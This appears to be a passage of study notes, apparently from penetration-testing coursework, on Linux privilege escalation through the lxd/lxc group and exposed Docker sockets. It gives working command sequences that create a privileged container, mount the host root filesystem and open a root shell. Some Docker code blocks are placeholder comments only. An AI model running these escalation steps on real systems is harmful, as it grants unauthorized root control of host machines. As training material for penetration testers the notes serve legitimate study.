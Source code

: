 - We must be in either the lxc or lxd group. To find out, just tap : id

- We can either create our own container and transfer it to the target system or use an existing container.

```bash
# exploit example
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
# verify the import
lxc image list

# init the image
lxc init ubuntutemp privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

- Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the resource of the host system as root.

```bash
lxc start privesc
lxc exec privesc /bin/bash
ls -l /mnt/root
```

###### Docker

- What can happen is that we get access to an environment where we will find users who can manage docker containers.

- With shared directories, specific directories or files on the host system can be made accessible within the container.

```bash
# Docker Shared Directories
# in container console as root
# move to shared directory and copy of use files
```

- . By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources.

```bash
# docker sockets

# in the container

# fond docker.sock file
ls -al
```

- we can use the docker to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it and upload it to the Docker container.

```bash
# in the container

# 1 - download and upload docker

# 2 - socket step 1
/tmp/docker -H unix:///app/docker.sock ps


# our own docker : socket step 2
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

/tmp/docker -H unix:///app/docker.sock ps

# socket step 4
/tmp/docker -H unix:///app/docker.sock exec -it <Step2containerID> /bin/bash
```